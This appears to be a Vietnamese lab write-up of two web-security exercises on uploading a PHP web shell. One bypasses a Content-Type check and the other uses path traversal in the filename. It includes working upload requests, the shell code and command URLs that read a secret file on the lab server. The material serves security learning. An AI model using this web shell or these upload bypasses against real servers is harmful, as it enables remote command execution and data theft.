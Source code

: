 ### Lab: Web shell upload via **Content-Type** restriction bypass
#### Analysis
- Vẫn upload file `evil.php` như trên nhưng nhận được thông báo
```
Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
```
- Cho thấy ứng dụng block dựa trên **Content-Type**

#### Exploit
- Ý tưởng: Thay đổi **Content-Type** thành image/jpeg để ứng dụng xử lý nó như file ảnh
- Gửi request của file đã upload đến **repeater**
Request:

```http
POST /my-account/avatar HTTP/2
Host: 0ace00220446375280713579007c0090.web-security-academy.net
...
Content-Disposition: form-data; name="avatar"; filename="evil.php"
Content-Type: image/jpeg

<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
...
```
- Mở file đã up ở 1 tab mới và khai thác
```
https://0ace00220446375280713579007c0090.web-security-academy.net/files/avatars/evil.php?cmd=cat%20/home/carlos/secret
```
- Submit solution

### Lab: Web shell upload via path traversal
#### Analysis
- Upload file tương tự như lab trên, và thử khai thác
- Trường hợp này ứng dụng đã ngắn thực thi mã trong thư mục người dùng, cụ thể là `/files/avatars` nên không thể thực thi `evil.php`

#### Exploit
- Ý tưởng: Upload file vào thư mục có thể thực thi được, khai thác kết hợp `path traversal`
- Gửi request của file đã upload đến **repeater**
Request:

```http
POST /my-account/avatar HTTP/2
Host: 0af9001c03437b5880e935270059002a.web-security-academy.net
...
Content-Disposition: form-data; name="avatar"; filename="../evil.php"
Content-Type: application/x-php

<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
...
```
- Mở file vừa upload ở tab mới và khai thác
```
https://0af9001c03437b5880e935270059002a.web-security-academy.net/files/evil.php?cmd=cat%20/home/carlos/secret
```